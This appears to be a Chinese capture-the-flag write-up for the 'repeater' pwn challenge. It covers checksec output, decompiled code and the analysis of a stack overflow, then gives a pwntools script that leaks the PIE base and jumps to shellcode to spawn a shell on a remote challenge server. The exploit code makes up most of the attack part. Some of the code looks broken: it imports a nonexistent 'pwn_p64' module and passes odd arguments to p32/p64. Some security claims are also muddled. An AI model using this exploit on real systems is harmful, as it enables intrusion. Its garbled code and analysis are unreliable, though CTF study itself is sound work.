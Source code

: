 #### repeater

1. checksec，如下：

   ```bash
   └─# checksec repeater   
   [*] '/home/kali/Cpp_Test/no_problem/repeater'
       Arch:     amd64-64-little
       RELRO:    Full RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      PIE enabled
       RWX:      Has RWX segments
   ```

   堆栈地址随机化全开，地址空间布局随机化开启
2. ida分析：

   ```c
   __int64 __fastcall main(__int64 a1, char **a2, char **a3)
   {
     char s[32]; // [rsp+0h] [rbp-30h] BYREF
     int v5; // [rsp+20h] [rbp-10h]
     int i; // [rsp+2Ch] [rbp-4h]

     sub_91B(a1, a2, a3);
     sub_A08();
     v5 = 1192227;
     puts("I can repeat your input.......");
     puts("Please give me your name :");
     memset(byte_202040, 0, sizeof(byte_202040));
     sub_982(byte_202040, 48LL);
     for ( i = 0; i < v5; ++i )
     {
       printf("%s's input :", byte_202040);
       memset(s, 0, sizeof(s));
       read(0, s, 0x40uLL);
       puts("sorry... I can't.....");
       if ( v5 == 3281697 )
       {
         puts("But there is gift for you :");
         printf("%p\n", main);
       }
     }
     return 0LL;
   }
   ```

   查看函数列表，没有后门函数，我们需要写入shellcode
3. `sub_982(byte_202040, 48LL);`被调用，将输入的内容写入bss段，附加段，偏移量不变化，可以在此写入shellcode

   可以看到 `read(0, s, 0x40uLL);`存在溢出，v5,i两变量在s之后， 可以被覆盖，利用此跳出循环

   read可以覆盖掉最多超出栈16个字节。

   main最后执行的两条语句为

   `pop rbp，pop rip`

   故我们恰好可以控制rip实现任意跳转

   `printf("%p\n", main);`如果可以控制v5的值就可以获取main的地址，偏移量为A33，PIE基址为main_addr-A33，bss段为

   `main_addr-A33+0x202040`

**payload**：

```python
from pwn import *
from pwn_p64 import *

context(os='linux', arch='amd64', log_level='debug')
# context是pwntools用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。

io = remote("61.147.171.105", 57809)
shellcode = asm(shellcraft.sh())
io.sendlineafter("Please give me your name :", shellcode)
# 利用shellcraft模块生成shellcode，将其写入bss段，0x202040

payload = b"a" * 0x20 + p32(3281697, "ord")
io.sendlineafter("input :", payload)
# 覆盖变量v5，获取main函数地址

io.readuntil(b'But there is gift for you :\n')
main_addr = int(io.recvuntil("\n"), 16)
base_addr = main_addr - 0xA33
# 得到PIE基址

final_payload = b'a' * 0x20 + p32(0, "ord") + p32(0, "ord") + p64(0, "ord") + p64(0, "ord") + p64(base_addr + 0x202040, 'hex')
# b'a' * 0x20 覆盖字符数组char s[32]
# p32(0, "ord")覆盖v5
# p32(0, "ord")覆盖i
# p64(0, "ord")栈是0x30字节还剩0x08字节没覆盖，再覆盖0x08字节，
# p64(0, "ord")最后有一个leave指令恢复旧的栈帧，相当于mov rsp,rbp；pop rbp；，pop rbp之后还要rsp+0x08，再覆盖0x08字节
# p64(base_addr + 0x202040, 'hex')接下来的八字节才是函数返回的地址，使此地址位填写的shellcode指令的地址，PIE基址加偏移量0x202040，编码发送

io.sendlineafter("input :", final_payload)
io.interactive()
```
